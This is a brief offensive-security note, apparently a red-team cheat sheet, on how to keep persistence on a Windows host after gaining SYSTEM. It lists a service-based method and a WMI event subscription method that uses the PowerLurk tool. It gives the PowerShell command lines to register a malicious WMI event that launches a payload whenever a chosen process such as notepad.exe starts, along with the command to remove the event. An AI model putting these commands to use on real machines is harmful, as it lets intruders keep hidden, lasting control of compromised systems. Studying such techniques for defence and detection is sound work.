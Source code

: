 Maintaining persistence after acheiving SYSTEM.

Assumption is the SYSTEM user can't access corporate proxy so can't use a HTTP beacon

# Via Service 


- Upload payload
- Create a new serice 

# Via WMI

https://github.com/Sw4mpf0x/PowerLurk 

* EventConsumer
    * The action to perform - Execute the payload
* EventFilter
    * Trigger, such as a process starting
* FilterToConsumerBinding
    * links the EventConsumer and EventFilter together
 
```
powershell-import PowerLurk.ps1
powershell Register-MaliciousWMIEvent - EventName <name> -PermanentCommand <payload> -Trigger <trigger> -ProcessName <process>
```
* To load a payload whenever notepad is started, the trigger would be ProcessStart and the ProcessName would be notepad.exe
* To remove it run:

  ```
  Get-WmiEvent -Name <name> | Remove-WmiObject
  ```
